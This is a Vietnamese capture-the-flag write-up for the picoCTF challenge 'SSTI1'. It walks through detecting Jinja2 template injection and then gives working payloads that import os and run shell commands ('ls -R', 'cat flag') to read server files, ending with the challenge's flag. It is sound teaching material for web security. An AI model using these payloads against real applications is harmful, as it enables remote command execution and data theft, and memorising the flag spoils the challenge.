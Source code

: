 # SSTI1
Bài này sẽ cho chúng ta 1 trang web có chức năng nhập đơn giản.
![image](https://github.com/user-attachments/assets/bf50f943-d162-4728-879b-fc1c701a9b33)


Theo tên challenge, SSTI (Server-Side Template Injection) là một lỗ hổng web xảy ra khi kẻ tấn công có thể chèn đầu vào độc hại vào công cụ mẫu của ứng dụng web.

Ta thử nghiệm nhập các payload mẫu để xác định [template engine](https://expressjs.com/en/guide/using-template-engines.html#:~:text=A%20template%20engine%20enables%20you%20to%20use%20static,makes%20it%20easier%20to%20design%20an%20HTML%20page.) (trình biên dịch mẫu) đang được sử dụng là gì.

Sau một lúc thử thì ta biết được template engine được sử dụng cho trang web này là Jinja2 (Python).

Ta nhập payload:
``` python
{{7*7}}
```
Kết quả là :
![image](https://github.com/user-attachments/assets/479fd8cd-287a-460a-b80c-3fa2eb3ea6a5)


Được rồi, sau khi biết rằng website đang bị lỗi SSTI với template engine là Jinja2 (Python). Giờ ta sẽ nhập payload khai thác SSTI sau để xem toàn bộ file và thư mục trong thư mục hiện tại và tất cả các thư mục con.

``` python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

Kết quả là:

![image](https://github.com/user-attachments/assets/d4413cdf-2988-4e12-9fb6-69a96dc93fc1)


Sau khi có kết quả, ta đã nhìn thấy `flag`. 
Tiếp tục chèn payload để lấy flag.

``` python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Và ta có flag.

![image](https://github.com/user-attachments/assets/9c81ff9b-8a3c-4a48-9fda-6cab7b7d1f7b)


Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
